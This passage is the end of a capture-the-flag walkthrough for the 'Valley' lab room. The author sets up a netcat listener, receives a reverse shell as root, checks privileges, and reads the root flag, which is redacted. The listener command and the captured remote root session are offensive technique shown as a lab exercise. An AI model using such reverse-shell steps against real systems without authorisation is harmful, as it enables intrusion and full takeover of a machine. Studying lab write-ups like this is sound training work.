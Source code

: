 Setting up the listener...

```
$ nc -lnvp 4444        
listening on [any] 4444 ...
```

Now, we wait a few moments... and... there you are!

```
$ nc -lnvp 4444        
listening on [any] 4444 ...
connect to [10.18.54.90] from (UNKNOWN) [10.10.233.14] 52652
bash: cannot set terminal process group (1233): Inappropriate ioctl for device
bash: no job control in this shell
root@valley:~# 
```

Let's check privileges.

```
root@valley:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Let's capture the root flag.

```
root@valley:~# cd /root
cd /root
root@valley:~# ls -la
ls -la
total 56
drwx------  8 root root 4096 Mar 13 08:17 .
drwxr-xr-x 21 root root 4096 Mar  6 15:40 ..
-rw-------  1 root root    0 Mar 21 07:30 .bash_history
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Mar 20 20:04 .cache
drwxr-xr-x  4 root root 4096 Mar  6 13:02 .config
drwx------  4 root root 4096 Aug 15  2022 .gnupg
drwxr-xr-x  3 root root 4096 Aug 11  2022 .local
-rw-------  1 root root   49 Mar  3 10:19 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   37 Mar 13 08:17 root.txt
-rw-r--r--  1 root root   66 Aug 15  2022 .selected_editor
drwx------  3 root root 4096 Aug 11  2022 snap
drwx------  2 root root 4096 Aug 14  2022 .ssh
-rw-r--r--  1 root root  222 Aug 15  2022 .wget-hsts
root@valley:~# cat root.txt     
cat root.txt
THM{<redacted>}
```

This way we have finished the Valley room! I hope this guide may have been useful for you!
